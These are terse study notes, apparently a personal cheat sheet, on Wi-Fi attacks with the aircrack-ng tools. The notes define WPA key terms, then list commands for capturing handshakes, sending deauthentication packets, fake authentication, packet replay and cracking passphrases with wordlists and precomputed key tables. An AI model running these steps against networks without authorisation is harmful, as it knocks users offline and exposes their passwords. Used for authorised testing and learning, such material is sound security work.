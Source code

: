 PMK: pairwise master key
=========================
PSK: phase-shift keying
============================
PTK: Pairwise Transient Key 
=============================
PSK: pre-shared key
====================
MIC: Message Integrity Code 
============================
ARP: address resolution protocol
==================================
- ARP is address resolution protocol: A TCP/IP protocol used to convert an IP address into a physical address, such as an Ethernet address. A host wishing to obtain a physical address broadcasts an ARP request onto the TCP/IP network. The host on the network that has the address in the request then replies with its physical hardware address. 
- IMP iwconfig wlan0mon channel 1 -> adaptor switches itself to all channel to receive all data but it might aireplay need a fixed channel
airmon-ng start interface 

Dump packets and capture handshake
===================================
- airodump-ng -c _channelNumber -w ~/Desktop/filename --bssid _id wlan0mon
- aireplay-ng --deauth _numberOfDeauthPackets/_0 -a [BSSID’s MAC Address] -c _clientMAC[optional] wlan0mon
- aircrack-ng -J <new hashcat file name> <cap file with handshake (.cap)>
- airdecap-ng -p _pw -e _essid _file (to decrypt wpa, all handshakes are required; a new file will be created)

Pre-calculate the PMKs
=======================
- airolib-ng database --import essid _essidFile
- airolib-ng database --import passwd _wordList
- airolib-ng database  --batch
- airolib-ng database --export cowpatty _essid _outputFile
- aircrack-ng -r database _.cap (need handshake)



















aireplay-ng --fakeauth _0/_1 -a [BSSID’s MAC Address] -h _myAdapterMAC wlan0mon
- allow the AP to reconize this adapte	r and respond to it 

! Need fakeauth to get response
REPLAY can generate a lot of traffic on a network so that airodump can have more information

aireplay-ng --aireplay _0/_1 -b [BSSID’s MAC Address] -h _targetAdapterMAC wlan0mon

aireplay-ng --test wlan0mon
